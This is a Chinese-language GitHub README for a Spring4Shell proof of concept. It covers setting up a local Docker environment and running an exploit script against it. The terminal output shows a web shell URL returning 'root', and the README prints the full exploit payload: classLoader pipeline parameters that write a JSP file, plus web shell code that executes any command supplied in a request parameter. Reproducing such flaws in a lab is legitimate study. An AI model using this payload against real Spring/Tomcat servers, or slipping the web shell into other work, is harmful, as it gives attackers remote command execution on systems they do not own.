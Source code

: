 # Spring4Shell-POC

Spring4Shell 漏洞本地复现过程

## 环境准备
* 环境 docker、docker-compose

* mvn 打包，生成 ``./target/ROOT.war``
```shell
mvn package
```
* 启动服务
```shell
docker-compose up -d
```

* 关闭服务
```shell
docker-compose down 
```

## 复现过程

* 运行脚本 
```shell
python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
```

* 第一次运行

![第一次运行](./screenshots/spring-4-shell-1.png)  

* 第二次运行 


![第二次运行](./screenshots/spring-4-shell-2.png)  

* 执行过程 


```
➜  spring4shell-poc clear             
➜  spring4shell-poc python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
The vulnerability exists, the shell address is :http://127.0.0.1:8080/tomcatwar.jsp?pwd=j&cmd=whoami
got response: 
➜  spring4shell-poc clear
➜  spring4shell-poc python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
The vulnerability exists, the shell address is :http://127.0.0.1:8080/tomcatwar.jsp?pwd=j&cmd=whoami
got response: root

//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -

➜  spring4shell-poc 

``` 

* docker容易中可以看到在tomcat应用服务中创建了一个jsp文件

![spring-4-shell-web](./screenshots/spring-4-shell-docker.png)


* web也可以直接访问

![spring-4-shell-web](./screenshots/spring-4-shell-web.png)


## 注意点

* spring-4-shell-exp.py 中data的数据
```text
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i 
if ("j".equals(request.getParameter("pwd"))) {
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while ((a = in .read(b)) != -1) {
        out.println(new String(b));
    }
}
%{suffix}i
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
``` 


### 参考 

* https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities
* https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement
* https://github.com/liudonghua123/spring-core-rce
